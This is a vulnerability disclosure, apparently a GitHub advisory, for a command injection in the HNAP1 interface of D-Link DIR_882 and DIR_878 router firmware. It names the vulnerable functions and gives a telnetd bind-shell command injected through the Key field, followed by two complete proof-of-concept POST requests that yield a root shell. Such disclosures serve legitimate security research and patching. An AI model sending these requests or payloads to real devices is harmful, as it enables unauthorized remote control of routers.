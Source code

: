# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanRadioSecurity` function,`Key` is directly passed by the attacker. After that, call the function nvram_bufset to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

In `start_wlan_guest` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

The necessary condition for successfully triggering the vulnerability is to enable the GuestZone service, so we need to send two packets to complete the triggering of the vulnerability.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `Key`=$(telnetd -l /bin/sh -p 1111 -b 0.0.0.0), in (`SetWLanRadioSecurity`)
* Enable GuestZone service, in (`SetGuestZoneRouterSettings`)



## PoC

We set `Key`=$(telnetd -l /bin/sh -p 1111 -b 0.0.0.0), in (`SetWLanRadioSecurity`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 780
SOAPAction: "http://purenetworks.com/HNAP1/SetWLanRadioSecurity"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 460BBD71D04BF64A83002D8FB8C71858 1727267828470
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/GuestZone.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=Pnt8v1cG
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSecurity xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Type>WPAORWPA2-PSK</Type><Encryption>TKIPORAES</Encryption><KeyRenewal>3600</KeyRenewal><RadiusIP1></RadiusIP1><RadiusPort1></RadiusPort1><RadiusSecret1></RadiusSecret1><RadiusIP2></RadiusIP2><RadiusPort2></RadiusPort2><RadiusSecret2></RadiusSecret2><Key>0cd1caf6599edfc73d7f383aa83964571fc9fedbcb8bdfeb1df9a342a84aee172a8227083b165ddadf1b2316844c354e06752708b6165d20df1b77f6848f1e4e</Key></SetWLanRadioSecurity></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Enable GuestZone service, in (`SetGuestZoneRouterSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 558
SOAPAction: "http://purenetworks.com/HNAP1/SetGuestZoneRouterSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: A29732C16107E917C46672943D7E3BB2 1727268039123
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=Pnt8v1cG
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress></IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
